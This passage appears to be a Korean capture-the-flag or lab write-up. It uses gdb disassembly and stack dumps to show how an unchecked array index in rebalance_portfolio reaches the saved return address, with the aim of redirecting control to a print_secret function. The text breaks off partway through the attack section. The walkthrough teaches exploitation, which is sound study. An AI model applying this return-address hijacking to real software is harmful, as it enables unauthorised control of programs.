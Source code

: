 그렇다면 `rebalance_portfolio()`를 호출하는 `manage_fund`를 살펴보자.
```nasm
Dump of assembler code for function manage_fund:
   0x0000000000401423 <+0>:     sub    $0x58,%rsp
   ...
   0x0000000000401485 <+98>:    mov    %rsp,%rdi
   0x0000000000401488 <+101>:   call   0x4013a3 <rebalance_portfolio>
   ...
   0x000000000040149f <+124>:   add    $0x58,%rsp
   0x00000000004014a3 <+128>:   ret
```
여기를 보면 `rebalance_portfolio()`에 인자로 rsp를 전달하고 있는 것을 알 수 있다.

이 인자는 다음과 같이 `rebalance_portfolio()` 함수에서 %r12에 할당이 된다.
```nasm
Dump of assembler code for function rebalance_portfolio:
   ...
   0x00000000004013a7 <+4>:     mov    %rdi,%r12
```

그럼 이 %r12는 무엇을 위한 레지스터일까?
```nasm
Dump of assembler code for function rebalance_portfolio:
   ...
   0x00000000004013ff <+92>:    movslq %ebp,%rbp
   0x0000000000401402 <+95>:    sub    %eax,(%r12,%rbp,4)
   0x0000000000401406 <+99>:    movslq %ebx,%rbx
   0x0000000000401409 <+102>:   add    %eax,(%r12,%rbx,4)
```
이 부분을 보면 %r12가 바로 `item[]`에 해당하는 레지스터인 것을 알 수 있다.

예상을 해보면, rsp+0x58에 해당하는 장소에 return address가 있을 것이고, 이 공간은 rsp+88(22 $\times$ 4), 즉 `item[22]`에 해당하는 장소인 것을 추론해볼 수 있을 것이다.

우리가 대체해야 할 return address의 주소는 `disas print_secret`를 통해 `0x4011d6`이라는 것을 알 수 있다.
```nasm
Dump of assembler code for function print_secret:
   0x00000000004011d6 <+0>:     push   %rbx
```

#### Attack

그럼 뭘 어떻게 해서 return address를 바꿔야할까?
코드를 보면 `item[]`에 직접 data를 write하는 부분은 없다.
`int`의 '+'혹은 '-'만 가능할 뿐이다.

그렇다는 뜻은 우리는 기존 return address에서 적절히 값을 더하거나 빼서 원하는 주소 `0x4011d6`으로 바꿔줘야한다는 뜻이다.

기존 주소를 알아보기 위해 다음 명령어를 gdb에서 실행한다.
함수 시작 시 `push * 2 + 0x58`까지 읽어야하므로 16xg가 적절할 것이다.
(!) Little Endian에 주의하며 인덱스를 읽어나가보자.
```nasm
(gdb) x/2xg $r12
		item[1]    item[0]      item[3]    item[2]
0x7fffffffd6b0: 0x000186040001877b      0x0001862a00018704    # item[]의 시작

(gdb) x/16xg $rsp #실제로는 push 두 번 만큼의 주소가 더 올라가 있다.
0x7fffffffd690: 0x0000000000000000      0x0000000000000001
0x7fffffffd6a0: 0x00007fffffffd828      0x000000000040148d

	#	item[1]    item[0]      item[3]    item[2]
0x7fffffffd6b0: 0x000186040001877b      0x0001862a00018704
	#	item[5]    item[4]      item[7]    item[6]
0x7fffffffd6c0: 0x0001864a00018603      0x000186a900018729
	#	item[9]    item[8]      item[11]  item[10]
0x7fffffffd6d0: 0x000186a700018774      0x0001868f0001868e
	#	item[13]  item[12]      item[15]  item[14]
0x7fffffffd6e0: 0x000186b8000186ef      0x000185a6000185f1
	#	item[17]  item[16]      item[19]  item[18]
```